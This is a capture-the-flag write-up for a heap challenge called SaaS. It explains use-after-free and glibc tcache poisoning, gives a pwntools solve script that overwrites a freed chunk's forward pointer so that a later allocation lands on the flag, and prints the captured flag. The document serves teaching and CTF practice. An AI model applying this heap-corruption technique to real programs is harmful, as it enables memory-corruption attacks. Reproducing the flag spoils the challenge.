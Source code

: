 ## Idea: Use UAF and GLIBC Tcache Posioning attack to get the flag

## Understanding UAF

UAF means Use After Free. It is exactly what it means. You use a chunk that is already freed, but not set to NULL, which is highly beneficial for us.

## Tcache

What happens to a chunk after it is freed? It is put in the tcache, which is a linked list. That means the first item points to the next one and so on. Tcache is LIFO: Last In First Out. If you call malloc(0x20) and there is a freed chunk in the tcache whose size is also 0x20, it is given to the malloc and removed from the tcache.

## Example to understand Tcache

Let's start with an example. If "a" and "b" are malloc(0x20) and I free "a" and then "b", the tcache would be [b -> a]. I can say that [b -> a -> 0x0] because there is nothing else freed. Also note that if I call malloc(0x20) now, I would get the same pointer as "b". So if "c" is malloc(0x20), "c" and "b" are pointing to the same address. Because tcache is a linkedlist, somewhere in "b" is the address of "a".

## Tcache Posioning explanation

In this code, I can write data after the chunk has been freed. If I can somehow change the address of the next pointer in "b" to the flag address, and then call malloc, it will point to "b", and then call malloc again, it will be pointing to the flag!

## Structure of a freed chunk

The freed chunk starts with some important data, which includes the size of the chunk, the FD (pointer to the next item in the linkedlist) and some other stuff. In this exploit, we will be overwriting the FD pointer.

## Exploiting

I can write in "b" after it is freed and change the FD pointer, which is currently the address of "a", to the flag address. Then, the tcache would be [b-> flag] instead of [b -> a]. Now if I call another malloc(0x20), which is "c", the tcache would become [flag]. I can call another malloc(0x20), which will return a chunk at the address of the flag. It now becomes possible to read the flag by accessing this newly created chunk. Note that because flag is too big, we have to run the script three times with flag address, flag address + 8, and flag address + 16

## Solve Script

```py
## ===== Setup =====
from pwn import *
elf = context.binary = ELF('./SaaS')
io = elf.process()

## ===== Flag Adress =====
flag_addr = (io.readline().strip()[54:]).decode()
flag_addr = int(flag_addr,16)

## ===== Functions to create, write, and delete datd =====
def create(idx):
    io.sendline(b'1')
    io.sendline(str(idx).encode())
    return 0

def write(idx,data):
    io.sendline(b'2')
    io.sendline(str(idx).encode())
    io.sendline(data)
    return 0

def delete(idx):
    io.sendline(b'4')
    io.sendline(str(idx).encode())
    return 0

## ===== Exploit =====
create(0)
create(1)
delete(0)
delete(1)
write(1, pack(flag_addr))
create(2)
create(3)
io.interactive()
```

Once you get interactive, read the third index to get flag.

Run the above script three times but make these changes:

1. write(1,pack(flag_addr))
2. write(1,pack(flag_addr+8))
3. write(1,pack(flag_addr+16))

# Flag: ictf{UAF_ftw_7fde1a2b6}
